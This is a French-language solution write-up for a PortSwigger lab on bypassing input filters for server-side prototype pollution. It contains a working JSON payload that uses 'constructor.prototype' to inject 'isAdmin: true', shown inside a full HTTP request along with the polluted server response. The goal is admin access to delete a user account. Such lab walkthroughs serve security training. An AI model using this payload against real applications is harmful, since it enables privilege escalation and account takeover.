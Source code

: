 # Lab

https://portswigger.net/web-security/prototype-pollution/server-side/lab-bypassing-flawed-input-filters-for-server-side-prototype-pollution

## Solution

Si on essaie la même attaque que pour le lab précédent, on obtient une réponsemais la pollution de prototype n'a pas fonctionné.

On va donc essayer de trouver une autre manière de polluer le prototype.

par exemple avec : 

```json
{
    "constructor": {
        "prototype": {
            "foo": "bar"
        }
    }
}
```

Mais dans la réponse on nous dit qu'il manque le sessionID : `{"message":"Session id not supplied."}`

En renseignant le sessionID dans le cookie, on obtient bien une réponse avec le paramètre pollué :

```http
POST /my-account/change-address HTTP/2
Host: 0a23004e037298f98157894a002c00f8.web-security-academy.net
Cookie: session=PDdvDBpn3H5rnEu9CAj9q78NGldIJQqe
Content-Length: 241
Content-Type: application/json;charset=UTF-8

{
  "address_line_1": "Wiener HQ",
  "address_line_2": "One Wiener Way",
  "city": "Wienerville",
  "postcode": "BU1 1RP",
  "country": "UK",
  "sessionId": "PDdvDBpn3H5rnEu9CAj9q78NGldIJQqe",
  "constructor": {
    "prototype": {
      "isAdmin": true
    }
  }
}
```

Et dans la réponse on voit bien le paramètre pollué :

```json
{
  "username": "wiener",
  "firstname": "Peter",
  "lastname": "Wiener",
  "address_line_1": "Wiener HQ",
  "address_line_2": "One Wiener Way",
  "city": "Wienerville",
  "postcode": "BU1 1RP",
  "country": "UK",
  "isAdmin": true,
  "foo": "bar"
}
```

Maintenant on peut polluer le paramètre `isAdmin` pour avoir un accès admin et un accès au panel d'administation pour supprimer le compte de `carlos`.